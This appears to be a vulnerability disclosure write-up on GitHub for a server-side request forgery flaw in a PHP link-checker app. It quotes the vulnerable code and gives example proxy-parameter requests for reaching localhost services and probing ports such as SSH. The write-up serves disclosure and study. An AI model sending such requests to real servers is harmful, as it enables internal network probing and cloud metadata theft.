

# Link Status Checker SSRF Proof-Of-Concept

**Vulnerability:** Server-Side Request Forgery (SSRF) in PHP proxy
<br>
**Location:** ```index.php - proxy parameter```
<br>
**Impact:** Access to internal services, port scanning, cloud metadata access, potential internal network compromise.
<br>
**Source Code:** [Link Status Checker v1.0](https://www.sourcecodester.com/php/18275/link-status-checker-using-php-and-javascript-source-code.html)
<br>
<br>
<br>
**Usage:** ```https://example.com/?proxy=http://localhost/index.php```



-----

### Why This Code is Vulnerable to SSRF
1. User-Controlled Input Without Proper Validation
```php
$url = $_GET['proxy']; // Directly takes user input
The code takes the proxy parameter directly from the URL without proper sanitization
```
This is the root cause of the SSRF vulnerability.

2. Insufficient URL Validation.
```php
if (!filter_var($url, FILTER_VALIDATE_URL)) {
    header('HTTP/1.1 400 Bad Request');
    exit('Invalid URL');
}
```
```FILTER_VALIDATE_URL``` only checks if the string looks like a URL

It doesn't validate whether the URL points to internal/restricted resources

Attackers can pass any URL that looks valid

3. Protocol Whitelisting Bypass
```php
$urlParts = parse_url($url);
if (!in_array($urlParts['scheme'], ['http', 'https'])) {
    header('HTTP/1.1 403 Forbidden');
    exit('Protocol not allowed');
}
```
This only checks the URL scheme (http/https)

However, attackers can still access internal services using http:// or https://

The restriction only blocks non-HTTP protocols, not internal targets

4. Dangerous Function: file_get_contents()
```php
$content = @file_get_contents($url, false, $context);
```
```file_get_contents()``` can make HTTP requests when given a URL

It follows redirects and can access internal network resources

The @ operator suppresses errors, making exploitation easier

5. No Network Restrictions
```php
$context = stream_context_create([
    'http' => [
        'timeout' => 5, // 5 second timeout
        'ignore_errors' => true // Get content even if HTTP error
    ]
]);
```
No restrictions on target IP addresses or domains

Can access localhost (127.0.0.1), internal network, or cloud metadata services

ignore_errors: true means it will return content even from error responses

------

### How the Exploitation Works
#### Basic SSRF Request
```text
http://localhost/link-status-checker/?proxy=http://google.com
PHP receives http://google.com as the target
```

Makes request to Google and returns the content

#### Internal Service Access
```text
http://localhost/link-status-checker/?proxy=http://127.0.0.1:80
PHP makes request to local port 80
```

Returns content from the local web server

#### Port Scanning
```text
http://localhost/link-status-checker/?proxy=http://127.0.0.1:22
PHP tries to connect to SSH port (22)
```

If port is open but not HTTP: "Failed to fetch URL"

If port is closed: "Connection refused"

